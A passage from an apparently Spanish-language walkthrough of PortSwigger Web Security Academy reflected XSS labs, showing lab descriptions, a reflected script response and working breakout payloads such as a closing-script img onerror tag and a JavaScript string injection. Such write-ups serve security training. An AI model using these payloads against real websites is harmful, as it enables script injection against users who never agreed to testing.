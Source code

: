 Entonces, elaboramos un payload para salir de la etiqueta **<script>** y ejecutar un payload xss.

```
</script><img src=x onerror=alert(1)>
```

![](img39.png)

## 14. Lab: Reflected XSS into a JavaScript string with angle brackets HTML encoded

```
This lab contains a reflected cross-site scripting vulnerability in the search query tracking functionality where angle brackets are encoded. The reflection occurs inside a JavaScript string. To solve this lab, perform a cross-site scripting attack that breaks out of the JavaScript string and calls the alert function.
```

Como se codifican los caracteres **< >** entonces, lo que haremos será romper la cadena e ingresar nuestro payload.

URL

```
https://ace71fd51f81802680da0524003700b4.web-security-academy.net/?search=aaa
```

Respuesta

```
<script>
    var searchTerms = 'aaa';
    document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
</script>
```

Entonces diseñamos el siguiente payload.

```
'-alert(document.domain)-'
```

![](img40.png)

## 15. Lab: Reflected XSS into a JavaScript string with angle brackets and double quotes HTML-encoded and single quotes escaped

```
This lab contains a reflected cross-site scripting vulnerability in the search query tracking functionality where angle brackets and double are HTML encoded and single quotes are escaped.

To solve this lab, perform a cross-site scripting attack that breaks out of the JavaScript string and calls the alert function.
```
